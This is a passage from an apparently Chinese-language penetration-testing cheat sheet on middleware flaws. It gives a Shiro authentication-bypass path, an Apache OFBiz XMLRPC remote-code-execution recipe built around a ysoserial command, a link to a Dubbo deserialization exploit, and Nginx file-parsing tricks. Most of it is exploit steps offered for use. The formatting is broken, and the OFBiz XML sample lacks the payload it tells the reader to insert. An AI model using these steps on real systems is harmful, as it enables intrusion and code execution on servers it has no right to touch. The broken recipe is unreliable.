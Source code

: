 ```
用户配置不当，扫描到目录直接访问即可
```

#### 3. 未授权访问漏洞

```
- shiro未授权访问漏洞（CVE-2020-1957）  
影响版本  
> shiro 1.5.2版本以下  
**poc**:构造`/目标/..;/admin`即可进入后台`
```

#### 4. rce

```
-ApacheOfbiz XMLRPC RCE(CVE-2020-9496)
>影响版本  
>ApacheOfbiz：<17.12.04
    poc步骤  
    step1:  
`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar  CommonsBeanutils1   "你的指令" | base64 |  tr -d '\n'`  
    step:放入下面xml 中
```
    <?xml version="1.0"?>
    <methodCall>
    <methodName>ping</methodName>
    <params>
        <param>
        <value>test</value>
        </param>
    </params>
    </methodCall>
    ```
```

#### 5. 反序列化

```
-Dubbo2.7.6反序列化漏洞（CVE-2020-1948）
>影响版本
>Dubbo2.7.0 to 2.7.6  
Dubbo2.6.0 to 2.6.7  
Dubbo all 2.5.x versions (not supported by official team any longer)  
**exp**:https://github.com/ctlyz123/CVE-2020-1948.git
```

三. Nginx　
---------

#### 1. 文件解析

```
用户配置不当，对于任意文件名，在后面加上/任意文件名.php后该文件就会以php格式进行解析，如`1.png/.php`  
在`fast-cgi`关闭的情况下，`nginx<=0.8.37`依然存在解析漏洞，会将`1.jpg%00.php`同样解析成php文件
```

#### 2. 目录遍历

```
用户配置不当，扫描到目录直接访问即可
```

#### 3. CRLF 注入

```